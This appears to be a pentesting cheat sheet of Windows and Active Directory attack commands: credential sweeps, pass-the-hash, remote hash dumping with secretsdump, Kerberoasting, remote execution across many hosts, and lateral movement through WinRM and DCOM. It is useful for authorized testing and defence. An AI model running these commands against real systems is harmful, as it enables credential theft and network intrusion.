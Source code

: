 # Authentication Mechanisms - Tools

## Authentication Mechanisms - Tools

This document provides an overview of essential tools for testing and interacting with various authentication mechanisms in Windows environments.

### CrackMapExec (CME)

CrackMapExec is a post-exploitation tool that helps automate assessment of large Active Directory networks.

#### Basic Usage

```bash
# Test credentials against SMB
crackmapexec smb 10.10.10.10 -u username -p password

# Test credentials against WinRM
crackmapexec winrm 10.10.10.10 -u username -p password

# Test credentials against SSH
crackmapexec ssh 10.10.10.10 -u username -p password

# Test credentials against MSSQL
crackmapexec mssql 10.10.10.10 -u username -p password
```

#### Pass-the-Hash

```bash
# SMB pass-the-hash
crackmapexec smb 10.10.10.10 -u username -H NTLM_HASH

# WinRM pass-the-hash
crackmapexec winrm 10.10.10.10 -u username -H NTLM_HASH
```

#### Authentication with Domain

```bash
# Specify domain for authentication
crackmapexec smb 10.10.10.10 -u username -p password -d domain.local

# Target a domain controller
crackmapexec smb dc01.domain.local -u username -p password -d domain.local
```

#### Network Sweeping

```bash
# Scan subnet for SMB
crackmapexec smb 10.10.10.0/24

# Scan subnet with credentials
crackmapexec smb 10.10.10.0/24 -u username -p password
```

#### Enumeration Functions

```bash
# Enumerate shares
crackmapexec smb 10.10.10.10 -u username -p password --shares

# Enumerate logged-on users
crackmapexec smb 10.10.10.10 -u username -p password --loggedon-users

# Enumerate domain users
crackmapexec smb 10.10.10.10 -u username -p password --users

# Enumerate domain groups
crackmapexec smb 10.10.10.10 -u username -p password --groups

# Get password policy
crackmapexec smb 10.10.10.10 -u username -p password --pass-pol
```

#### Command Execution

```bash
# Execute command via SMB
crackmapexec smb 10.10.10.10 -u username -p password -x "whoami /all"

# Execute PowerShell command
crackmapexec smb 10.10.10.10 -u username -p password -X '$PSVersionTable'
```

### Impacket

Impacket is a collection of Python classes for working with network protocols, particularly useful for Windows authentication.

#### PSExec

```bash
# Authenticate with password
impacket-psexec domain.local/username:password@10.10.10.10

# Pass-the-hash
impacket-psexec -hashes :NTLM_HASH domain.local/username@10.10.10.10

# Specify command to run
impacket-psexec domain.local/username:password@10.10.10.10 'ipconfig /all'
```

#### WMIExec

```bash
# Authenticate with password
impacket-wmiexec domain.local/username:password@10.10.10.10

# Pass-the-hash
impacket-wmiexec -hashes :NTLM_HASH domain.local/username@10.10.10.10
```

#### SMBExec

```bash
# Authenticate with password
impacket-smbexec domain.local/username:password@10.10.10.10

# Pass-the-hash
impacket-smbexec -hashes :NTLM_HASH domain.local/username@10.10.10.10
```

#### Secretsdump

```bash
# Remote dumping of hashes
impacket-secretsdump domain.local/username:password@10.10.10.10

# Pass-the-hash
impacket-secretsdump -hashes :NTLM_HASH domain.local/username@10.10.10.10

# SAM + LSA + Cached creds
impacket-secretsdump -sam sam.save -system system.save -security security.save LOCAL
```

#### GetNPUsers

```bash
# Get users without Kerberos pre-authentication
impacket-GetNPUsers domain.local/ -dc-ip 10.10.10.10 -usersfile users.txt -format hashcat

# With specific user
impacket-GetNPUsers domain.local/username -dc-ip 10.10.10.10
```

#### GetUserSPNs

```bash
# Kerberoasting - request service tickets
impacket-GetUserSPNs domain.local/username:password -dc-ip 10.10.10.10 -request

# Output in specific format
impacket-GetUserSPNs domain.local/username:password -dc-ip 10.10.10.10 -request -format hashcat
```

### Evil-WinRM

Evil-WinRM is a WinRM shell for pentesting/hacking Windows Remote Management.

#### Basic Usage

```bash
# Connect with password
evil-winrm -i 10.10.10.10 -u username -p password

# Pass-the-hash
evil-winrm -i 10.10.10.10 -u username -H NTLM_HASH

# Specify domain
evil-winrm -i 10.10.10.10 -u username@domain.local -p password
```

#### Advanced Features

```bash
# Load PowerShell scripts
evil-winrm -i 10.10.10.10 -u username -p password -s /path/to/ps_scripts/

# Upload file
# (After connecting, use upload command)
*Evil-WinRM> upload /local/path/file.exe C:\Windows\Temp\file.exe

# Download file
*Evil-WinRM> download C:\Windows\Temp\file.exe /local/path/file.exe

# PowerShell menu
*Evil-WinRM> menu

# Launch PowerShell commands without touching disk
*Evil-WinRM> Invoke-Binary /path/to/binary.exe
```

### Invoke-TheHash

Invoke-TheHash provides PowerShell functions for performing pass-the-hash attacks with WMI and SMB.

#### Installation

```powershell
# Import the module
Import-Module .\Invoke-TheHash.psd1
```

#### SMB Command Execution

```powershell
# Execute command via SMB using NTLM hash
Invoke-SMBExec -Target 10.10.10.10 -Domain domain.local -Username username -Hash NTLM_HASH -Command "whoami" -Verbose

# Get command output
Invoke-SMBExec -Target 10.10.10.10 -Domain domain.local -Username username -Hash NTLM_HASH -Command "whoami" -CommandOutput $true -Verbose
```

#### WMI Command Execution

```powershell
# Execute command via WMI using NTLM hash
Invoke-WMIExec -Target 10.10.10.10 -Domain domain.local -Username username -Hash NTLM_HASH -Command "whoami" -Verbose
```

#### Mass Command Execution

```powershell
# Execute on multiple targets via SMB
$targets = Get-Content .\targets.txt
foreach($target in $targets) {
    Invoke-SMBExec -Target $target -Domain domain.local -Username username -Hash NTLM_HASH -Command "whoami" -Verbose
}
```

### Lateral Movement Techniques

#### RDP with Stolen Credentials

```bash
# Using xfreerdp
xfreerdp /v:10.10.10.10 /u:username /p:password /d:domain.local +clipboard

# Pass-the-hash with mimikatz
sekurlsa::pth /user:username /domain:domain.local /ntlm:NTLM_HASH /run:"mstsc /restrictedadmin"
```

#### DCOM Lateral Movement

```powershell
# Create COM object for remote execution
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))

# Execute command
$dcom.Document.ActiveView.ExecuteShellCommand("cmd.exe", $null, "/c whoami > C:\Windows\Temp\output.txt", "7")
```

#### Common Troubleshooting

```bash
# Verify SMB connectivity
crackmapexec smb 10.10.10.10 --shares

# Check for WinRM connectivity
crackmapexec winrm 10.10.10.10

# Test credential validity without execution
crackmapexec smb 10.10.10.10 -u username -p password
```
